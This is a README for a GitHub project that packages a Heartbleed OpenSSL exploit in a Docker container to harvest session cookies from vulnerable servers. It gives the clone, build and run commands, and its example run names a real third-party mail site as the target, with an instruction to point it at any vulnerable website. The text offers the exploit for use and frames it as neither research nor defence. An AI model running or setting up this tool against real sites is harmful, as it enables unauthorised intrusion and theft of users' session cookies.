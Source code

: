 # heartbleed-docker

A docker container to exploit heartbleed OpenSSL, and save the cookies

### Build & Run
```
git clone https://github.com/arthurnn/heartbleed-docker.git
cd heartbleed-docker
docker build -t arthurnn/heartbleed .

// change the target url to a vulnerable website
docker run -d -p 9099:9099 arthurnn/heartbleed mail.yahoo.com
```
Check http://localhost:9099
